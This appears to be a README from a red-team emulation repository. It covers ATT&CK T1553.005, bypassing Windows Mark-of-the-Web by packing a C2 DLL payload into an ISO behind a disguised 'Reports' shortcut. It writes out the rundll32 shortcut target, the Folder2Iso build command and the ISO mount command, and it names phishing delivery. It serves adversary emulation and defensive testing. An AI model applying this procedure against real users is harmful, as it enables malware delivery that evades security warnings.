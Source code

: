 # T1553.005 - Subvert Trust Controls: Mark-of-the-Web Bypass

Adversaries may abuse specific file formats, such as ISO, to evade Mark-of-the-Web (MOTW) controls. 

1. Copy the ISO file in the VFS folder to your SCYTHE server VFS:/shared/ISO
2. Inport and tag the imported Compound Action in your Threat Catalog as T1553.005
3. Create a new campaign and select the T1553.005 compound action

## ISO Deployment of SCYTHE (Windows) Payload

The below procedure uses the Folder2Iso project to build an ISO that can be mounted on a Windows system. If the ISO was downloaded from the Internet, it will bypass the Mark of the Web warning. Opening the Reports shortcut will execute the SCYTHE DLL payload.

1. Set up Command and Control (C2) using HTTPS and TCP 443 and generate DLL payload. If you are a SCYTHE user, create a new SCYTHE campaign, download a 32-bit or 64-bit DLL with the entry-point function name of `PlatformClientMain` 
2. Copy the src folder from our GitHub to a working directory on your Windows system. Note we are using the Folder2Iso project to create the ISO.
3. Copy and rename the SCYTHE DLL to `DOCUMENTS.dll` and put it in the Folder2Iso of the working directory
4. In the Folder2Iso directory, create a shortcut called Reports and set the Target to: `C:\Windows\System32\rundll32.exe "DOCUMENTS.DLL",PlatformClientMain`
5. Open a Windows command prompt and cd to the working directory.
6. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\T1553.005.iso" "DECLASS" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
7. Email the ISO file, host it on a web server and send a phishing link, double click it on your host, and/or execute from command line with `powershell Mount-DiskImage -ImagePath "%USERPROFILE%\Downloads\T1553.005.iso"` 
8. In the newly mounted drive, double clicking the Reports shortcut which will launch the DOCUMENTS.dll SCYTHE Campaign.
